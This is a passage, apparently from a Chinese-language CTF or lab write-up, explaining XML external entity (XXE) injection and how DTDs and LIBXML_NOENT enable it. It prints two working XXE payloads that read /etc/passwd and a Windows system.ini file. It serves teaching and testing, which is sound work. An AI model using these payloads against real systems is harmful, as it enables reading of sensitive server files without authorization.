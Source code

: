 > <head>Reminder</head>
> <body>You are a good man</body>
> </note>
> ```
>
> ​	其中，DTD（Document Type Definition，文档类型定义），用来为 XML 文档定义语法约束，可以是内部申明也可以使引用外部DTD。现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的，从而也就直接避免了这个漏洞。
>
> ```
> ① 内部申明DTD格式<!DOCTYPE 根元素 [元素申明]>
> ② 外部引用DTD格式<!DOCTYPE 根元素 SYSTEM "外部DTD的URI">
> ③ 引用公共DTD格式<!DOCTYPE 根元素 PUBLIC "DTD标识名" "公共DTD的URI">
> ```
>
> 外部实体引用 Payload
>
> ```
> <?xml version="1.0"?>
> <!DOCTYPE ANY[
> <!ENTITY f SYSTEM "file:///etc/passwd">
> ]>
> <x>&f;</x>
> ```

![AA](https://img2018.cnblogs.com/blog/1675522/201910/1675522-20191008111131980-2107939498.png)

本题目是默认开启了`LIBXML_NOENT`

![image-20230225131958561](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230225131958561.png)

如果删掉`LIBXML_NOENT`则无法解析外部实体内容
xml外部引用支持file协议, 以及http, ftp等协议
我们通过构造一下代码，来读取网站根目录的相关文件

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY f SYSTEM "file:///c:/windows/system.ini">
]>
<x>&f;</x>
```

![image-20230225134232978](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230225134232978.png)
